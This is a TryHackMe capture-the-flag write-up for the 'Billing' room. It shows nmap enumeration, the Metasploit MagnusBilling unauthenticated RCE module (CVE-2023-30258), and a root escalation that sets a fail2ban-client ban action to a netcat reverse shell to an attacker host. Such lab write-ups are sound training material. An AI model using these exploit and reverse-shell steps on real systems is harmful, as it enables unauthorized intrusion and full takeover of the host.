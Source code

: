 ```yaml
---
title: "Billing"
date: 2025-03-08
image: /assets/img/tryhackme/Billing/Billing_image.jpg
description: Writeup of the TryHackMe-CTF Billing
categories: [Tryhackme, Easy]
tags: [linux, metasploit, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Billing</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Some mistakes can be costly.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/billing">https://tryhackme.com/room/billing</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Billing.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.46.219         
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 05:13 EST
  Nmap scan report for 10.10.46.219
  Host is up (0.046s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  80/tcp   open  http
  3306/tcp open  mysql
  5038/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 22.38 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,3306,5038 10.10.46.219
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 05:14 EST
  Nmap scan report for 10.10.46.219
  Host is up (0.042s latency).

  PORT     STATE SERVICE  VERSION
  22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
  | ssh-hostkey: 
  |   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
  |   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
  |_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
  80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
  | http-robots.txt: 1 disallowed entry 
  |_/mbilling/
  | http-title:             MagnusBilling        
  |_Requested resource was http://10.10.46.219/mbilling/
  |_http-server-header: Apache/2.4.56 (Debian)
  3306/tcp open  mysql    MariaDB (unauthorized)
  5038/tcp open  asterisk Asterisk Call Manager 2.10.6
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The webserver showed the login page of MagnusBilling, which is an open-source billing system for VoIP-services:

![MagnusBilling login](/assets/img/tryhackme/Billing/thm_billing_1.jpg)

I checked for potential vulnerabilities in `metasploit` and found an interesting exploit:
```bash
msf6 > search MagnusBilling

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                                  .                .          .      .

```

After loading the module, I set the required options and executed the exploit: 
```bash
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.251.160
RHOSTS => 10.10.251.160
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set SRVHOST [attackerip]
SRVHOST => [attackerip]
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST [attackerip]
LHOST => [attackerip]
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.21.63.26:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.251.160:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.15 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 10.10.251.160
[+] Deleted lTTlGxPShDz.php
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.251.160:39784) at 2025-03-08 05:38:44 -0500

meterpreter > 
```

With this initial access, I successfully retrieved the user flag:
```bash
meterpreter > shell
  Process 1750 created.
	Channel 0 created.
whoami
	asterisk
cd /home
ls
	magnus
cd magnus
ls
  Desktop
  Documents
  Downloads
  Music
  Pictures
  Public
  Templates
  Videos
  user.txt
cat user.txt
  THM{[removed]}
```

## Privilege Escalation root

To obtain a more stable shell, I switched to `penelope`:

![Switch to penelope](/assets/img/tryhackme/Billing/thm_billing_2.jpg)

I continued with `sudo -l` and got the following output:
```bash
asterisk@Billing:/home$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

After researching Fail2Ban, I discovered that it is possible to execute Bash commands in addition to network block events. Before I started to missuse this I checked if I can control `fail2ban`:
```bash
asterisk@Billing:/home$ sudo fail2ban-client restart
  Shutdown successful
  Server ready
```

Great! Using this, I misused it with an additional ban-action:
```bash
asterisk@Billing:/var/tmp$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'busybox nc [attackerip] 9001 -e bash'"
```

Finally, I started a listener and triggered this by manually blocking an IP address in the `sshd jail`: 
```bash
asterisk@Billing:/var/tmp$ sudo /usr/bin/fail2ban-client set sshd banip 10.11.12.13
```

I successfully established the connection and retrieved the root flag.:
```bash
$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [attackerip] from (UNKNOWN) [10.10.251.160] 47964
whoami
	root
cd /root
ls
	filename
	passwordMysql.log
	root.txt
cat root.txt
	THM{[removed]}
```

solved! :)
